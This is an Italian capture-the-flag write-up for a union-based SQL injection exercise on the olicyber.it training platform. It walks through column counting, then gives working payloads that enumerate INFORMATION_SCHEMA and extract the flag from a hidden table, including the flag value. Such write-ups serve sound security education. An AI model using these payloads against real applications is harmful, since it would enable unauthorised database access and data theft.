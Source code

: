 # Union based SQL Injection

http://web-17.challs.olicyber.it/union

## Procedimento
La flag è nascosta in un'altra tabella non "direttamente" accessibile.

Il primo step è capire quante colonne ci sono, in questo caso è facile perchè l'output porta direttamente 6 colonne di risultato.

In caso questo non fosse possibile, bisogna basarsi su dettagli che appaiono nel frontend per capire se si ha indovinato oppure no la quantità di colonne.
Cioè, se si facesse injection con la UNION, una quantità errata di colonne risulterebbe in un "errore" di login. Invece una quantità corretta di colonne risulterebbe in un successo.

Inoltre per poter mostrare all'attaccante delle informazioni bisogna basarsi su "finestrelle" che rendono accessibili tali informazioni.
Ad esempio normalmente la tabella degli utenti avrà le colonne email, username, password. Di solito un sito magari quando ti loggi dirà "Benvenuto <nome_utente>"
Facendo la union, magari riusciamo a far fuoriuscire delle informazioni nella parte del frontend dove dovrebbero esserci delle informazioni "parametriche".
Se abbiamo successo in sostanza, dovrebbe uscire "Benvenuto 1" in quanto abbiamo fatto un payload con ``` ...  UNION SELECT 1,2,3,4,5,...,N ...```

In questo caso sappiamo quindi che sono 6 colonne. Per scoprire le tabelle presenti bisogna interrogare il database utilizzando la query che mette tutto inline in un unica cella "group_concat(table_name, ':', column_name)"

```sql 
-- AGGIUNGERE ESPLICITAMENTE L'APICETTO dopo l'id così da ESCAPEARE 
-- QUESTA PRIMA PARTE E' inserita dal sistema
SELECT * FROM dummy_data WHERE id='1' AND 0=1 UNION SELECT 1,2,3,4,5,group_concat(table_name,':',column_name) FROM INFORMATION_SCHEMA.columns WHERE table_schema = DATABASE(); -- 
```
(nota bene, ha senso usare DATABASE() quando la tabella da leakare è nello stesso DATABASE, altrimenti si possono anche prima vedere quali database esistono sullo stesso nodo, e poi interrogare database diversi da quello usato dall'applicazione che sfruttiamo per fare l'injection)


Il payload vero e proprio è il seguente:
```
1' AND 0=1 UNION SELECT 1,2,3,4,5,group_concat(table_name,':',column_name) FROM INFORMATION_SCHEMA.columns WHERE table_schema = DATABASE(); -- 
```

Otteniamo in risposta
```
1, 2, 3, 4, 5, dummy_data:another_column,dummy_data:dummy_column,dummy_data:dummy_int,dummy_data:foobar,dummy_data:id,dummy_data:idk_what_im_doing,real_data:flag,real_data:id
```

Verso la fine si nota ```real_data:flag, real_data:id``` che è esattamente l'informazione che cercavamo.
Ora che sappiamo il nome della tabella, la fase esplorativa è finita e basta semplicemente 

Per finalmente ottenere la flag dobbiamo fare:
```sql
SELECT * FROM dummy_data WHERE id=' 1' AND 0=1 UNION SELECT 1,2,3,4,5,flag from real_data -- '
```

Il payload sarebbe ``` 1' AND 0=1 UNION SELECT 1,2,3,4,5,flag from real_data -- ```

L'output è ```1, 2, 3, 4, 5, flag{Uni0ns_4re_so_tr1vi4l}``` con flag facilmente estrapolabile ```flag{Uni0ns_4re_so_tr1vi4l}```